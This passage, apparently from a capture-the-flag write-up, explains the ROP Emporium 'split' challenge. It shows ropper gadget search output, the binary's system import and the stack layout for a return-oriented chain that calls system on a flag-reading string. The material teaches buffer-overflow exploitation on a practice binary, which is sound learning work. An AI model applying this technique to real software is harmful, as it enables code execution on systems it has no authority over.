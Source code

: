 ```python
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.

---

## Challenge 2: Split
> The elements that allowed you to complete ret2win are still present, they've just been split apart.  Find them and recombine them using a short ROP chain.


This is the first challenge that really gets into the coolness of ROP exploits. 

Where before we just needed to execute the ret2win function, now there is no single place we need to return to. However, there are 2 parts of code (which are disconnected) that we need to execute in this binary. We first need to place a pointer to the "/bin/cat flag.txt" string into rdi (which is where the first argument to a function is stored) and then we need to cause a system call to happen. Luckily the string and system call already exist in the program so all we have to do is put them together.


When we search within [[pwndbg]] for ways to edit the value of $rdi we get the following:

```
pwndbg> ropper -- --search "pop rdi"
[INFO] File: /tmp/tmplhu8fdig
0x00007ffff7fec24b: pop rdi; jne 0x7ffff80675b8; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret;
0x00007ffff7fd09c1: pop rdi; pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
```
The pop instruction takes the top value on the stack and places it in the register. Since we control the stack with our buffer overflow, we can control that value and make it whatever we want. The last one shown is ideal for us in this situation as it doesn't cause another bad side effects.

When we print the functions we can also see a location for the system call.
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system

```

So what we want to do is run 2 instructions sets, the first starting at 0x40073c and then jump to 0x400560. Luckily the first 2 instructions end with a ret instruction which jumps to the instructions held at the top of the stack. So we want the stack to look like this

```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | pop rdi loc    | # gadget to control rdi
8 bytes | ptr to string  | # the value we want to place in rdi
8 bytes | system call loc| # the system call function we want to call
8 bytes | -------------- |

```
